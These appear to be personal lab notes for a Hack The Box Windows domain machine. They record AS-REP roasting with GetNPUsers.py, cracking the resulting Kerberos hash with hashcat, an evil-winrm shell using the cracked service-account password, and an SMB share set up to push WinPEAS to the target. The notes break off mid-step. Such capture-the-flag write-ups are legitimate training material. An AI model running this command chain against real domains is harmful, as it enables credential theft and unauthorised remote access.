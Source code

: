 `cd /usr/share/doc/python3-impacket/examples/`

![[Pasted image 20241211202905.png]]

Trying out `GetNPUsers.py` for users that don't require Kerberos pre-authentication.

`./GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb.local/'`

![[Pasted image 20241211203411.png]]

`./GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb.local/' -format hashcat`

Let's crack this hash using #hashcat 

Check what hashing technique is used using hashcat.

`./hashcat --example-hashes | grep -i krb`

![[Pasted image 20241211203918.png]]
`./hashcat --example-hashes | less 

hashcat mode found: 18200 

Crackin'

`./hashcat -m 18200 hashes/svc-alfresco /opt/wordlist/rockyou.txt -r rules/InsidePro-PasswordPro.rule`

Hash cracked. 

![[Pasted image 20241211204501.png]]

Password: s3rvice

Trying to get a shell using crackmapexec (failed)

`crackmapexec smb 10.10.10.161 -u svc-alfresco -p s3rvice --shares`

![[Pasted image 20241211204817.png]]
Could potentially extract SYSVOL password 

From all ports scan in nmap - notice port 5985 is open (WINRM)

![[Pasted image 20241211205310.png]]
Use #evilwinrm to get a shell on the box using alfresco's creds

`./evil-winrm.rb -u svc-alfresco -p s3rvice -i 10.10.10.161`

![[Pasted image 20241211205559.png]]
Setting up a SMBShare, using New-PSDRive to mount the share, then running WinPEAS

Serve winpeas to remote machine using SMB. 

Start smbserver
`impacket-smbserver NameofShare $(pwd) -smb2support -user rachel -password penny`

![[Pasted image 20241211210109.png]]
Adding password as argument on remote machine
`$pass = convertto-securestring 'penny' -AsPlainText -Force`
![[Pasted image 20241211210336.png]]
`$cred= New-Object System.Management.Automation.PSCredential('rachel', $pass)`
